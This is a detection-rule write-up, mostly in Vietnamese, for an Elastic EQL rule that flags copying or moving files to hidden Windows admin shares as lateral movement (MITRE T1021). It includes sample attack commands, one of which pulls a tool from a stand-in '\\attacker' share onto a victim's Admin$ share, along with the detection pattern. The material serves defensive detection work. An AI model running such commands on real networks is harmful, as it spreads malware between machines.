 

---

# Remote File Copy to a Hidden Share

## Goal

Phát hiện hành vi **copy hoặc move file đến các network share ẩn (hidden share, ký hiệu `$`)**. Đây là kỹ thuật mà attacker thường dùng để:

* **Lateral Movement**: chuyển payload hoặc công cụ sang máy khác qua share `C$`, `ADMIN$`, `IPC$`.
* **Data Staging**: tập trung dữ liệu vào share ẩn trước khi exfiltration.

## Categorization

* **MITRE ATT\&CK**:

  * Lateral Movement (TA0008) → [Remote Services (T1021)](https://attack.mitre.org/techniques/T1021/)

## Strategy Abstract

Hidden administrative shares (ví dụ: `C$`, `ADMIN$`, `IPC$`) mặc định được bật trên Windows để quản trị từ xa.

* Kẻ tấn công có thể lợi dụng để **copy malware, script, hoặc tools** vào máy từ xa.
* Rule tìm tiến trình `cmd.exe`, `powershell.exe`, `pwsh.exe`, `powershell_ise.exe`, hoặc `xcopy.exe` với **command line chứa đường dẫn UNC** dạng `\\<host>\<share$>` cùng các lệnh copy/move file.

Ví dụ tấn công:

```cmd
copy malware.exe \\victim\C$\Users\Public\malware.exe
xcopy \\attacker\share\tool.exe \\victim\Admin$\system32\
```

## Technical Context

* **Nguồn dữ liệu**:

  * Elastic Endgame / Elastic Defend
  * Windows Security Logs (Event ID 4688 – Process Creation)
  * Sysmon (Event ID 1 – Process Create)
  * Microsoft Defender for Endpoint
  * SentinelOne, Crowdstrike

* **Index patterns**:

  * `endgame-*`
  * `logs-crowdstrike.fdr*`
  * `logs-endpoint.events.process-*`
  * `logs-m365_defender.event-*`
  * `logs-sentinel_one_cloud_funnel.*`
  * `logs-system.security*`
  * `logs-windows.forwarded*`
  * `logs-windows.sysmon_operational-*`
  * `winlogbeat-*`

* **Logic Rule (EQL)**:

  ```eql
  process where host.os.type == "windows" and event.type == "start" and
    process.name : ("cmd.exe", "powershell.exe", "xcopy.exe", "pwsh.exe", "powershell_ise.exe") and 
    process.command_line : "*\\\\*\\*$*" and 
    process.command_line : ("*copy*", "*move*", "* cp *", "* mv *")
  ```

* **Ý nghĩa kỹ thuật**:

  * Lọc ra tiến trình thực hiện lệnh **copy/move** file.
  * Chỉ quan tâm đến **đường dẫn UNC chứa share ẩn (`$`)**.
  * Bao phủ cả cú pháp copy trong PowerShell hoặc command line.

## Blind Spots and Assumptions

* Nếu attacker dùng công cụ khác ngoài danh sách (vd: `robocopy.exe`, `certutil.exe`, hoặc custom binary) thì rule này không phát hiện.
* Nếu file được đẩy qua SMB bằng API trực tiếp (không thông qua `cmd.exe`, `powershell.exe`) → rule có thể bỏ sót.
* Không phát hiện khi copy qua RDP clipboard hoặc qua protocol khác (FTP, HTTP, WinRM copy).

## False Positives

* Quản trị viên copy file hợp pháp qua share ẩn (vd: triển khai patch hoặc script).
* Công cụ IT hoặc phần mềm backup có thể thực hiện hành vi tương tự.
  👉 Giảm noise bằng cách:
* Baseline share usage trong môi trường.
* Áp dụng exception cho tool quản trị hợp pháp (SCCM, backup software).

## Validation

1. Trên máy A chạy:

   ```cmd
   copy test.txt \\MAYCHU\C$\Users\Public\
   ```
2. Kiểm tra event process creation → rule cần alert.
3. Thử dùng GUI (File Explorer copy vào `\\MAYCHU\C$`) → rule **không bắt được** (vì detection chỉ dựa vào process).

## Priority

* **Medium (47)** vì:

  * Remote file copy có thể là **admin hợp pháp**.
  * Nhưng trong bối cảnh bất thường (giữa user workstation, ngoài giờ, hoặc liên quan đến account đặc quyền) → **cao nguy hiểm**.

## Response

1. Xác minh tiến trình và user thực hiện hành vi copy.
2. Kiểm tra nội dung file được copy (có phải malware/tool?).
3. Điều tra xem có sự kiện authentication bất thường liên quan không (vd: Pass-the-Hash, brute-force trước đó).
4. Nếu malicious: cô lập endpoint, reset tài khoản, điều tra lateral movement rộng hơn.

## Additional Resources

* [MITRE ATT\&CK – T1021 Remote Services](https://attack.mitre.org/techniques/T1021/)
* Microsoft Docs – [Administering Remote Admin Shares](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/admin-share)

---

